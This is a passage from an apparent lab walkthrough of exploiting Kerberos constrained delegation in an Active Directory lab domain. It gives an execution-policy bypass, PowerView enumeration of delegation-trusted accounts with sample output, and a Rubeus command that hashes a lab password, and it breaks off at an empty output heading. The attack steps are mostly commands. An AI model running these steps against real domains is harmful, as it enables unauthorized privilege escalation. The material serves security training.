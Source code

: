 This lab demonstrates how to exploit Kerberos Constrained Delegation to escalate privileges in an Active Directory environment. We'll use a compromised service account with delegation privileges to impersonate high-privileged users and access restricted resources.

### Step-by-Step Attack

#### Step 1: Setup Environment

First, start PowerShell with execution policy bypass and import PowerView:

```powershell
powershell -exec bypass
Import-Module .\PowerView-main.ps1
```

#### Step 2: Enumerate Delegation-Configured Accounts

Use PowerView to find accounts trusted for delegation:

```powershell
Get-NetUser -TrustedToAuth
```

**Expected Output:**

```
logoncount                    : 25
badpasswordtime               : 1/1/1601 1:00:00 AM
distinguishedname             : CN=web service,CN=Users,DC=eagle,DC=local
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : web service
lastlogontimestamp            : 12/17/2022 9:44:35 PM
userprincipalname             : webservice@eagle.local
name                          : web service
objectsid                     : S-1-5-21-1518138621-4282902758-752445584-2110
samaccountname                : webservice
msds-allowedtodelegateto      : {http/DC1.eagle.local/eagle.local, http/DC1.eagle.local, http/DC1, http/DC1.eagle.local/EAGLE...}
serviceprincipalname          : {cvs/dc1.eagle.local, cvs/dc1}
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
```

**Key Findings:**

* `webservice` account is trusted for delegation
* Configured to delegate to HTTP service on DC1
* HTTP service enables PowerShell Remoting access

#### Step 3: Generate NTLM Hash

Convert the plaintext password to NTLM hash format required by Rubeus:

```powershell
.\Rubeus.exe hash /password:Slavi123
```

**Output:**
